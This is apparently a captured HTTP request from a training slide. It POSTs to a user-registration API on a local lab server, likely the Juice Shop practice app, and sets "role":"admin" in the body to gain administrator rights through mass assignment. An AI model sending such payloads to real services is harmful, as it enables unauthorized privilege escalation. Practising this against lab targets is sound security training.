

#
POST /api/Users HTTP/1.1

Host: 192.168.8.108:3000

Content-Length: 73

Accept: application/json, text/plain, */*

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36

Content-Type: application/json

Origin: http://192.168.8.108:3000

Referer: http://192.168.8.108:3000/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss

Connection: close

{"email":"'user2@user.com","password":"password",

"role":"admin"

     }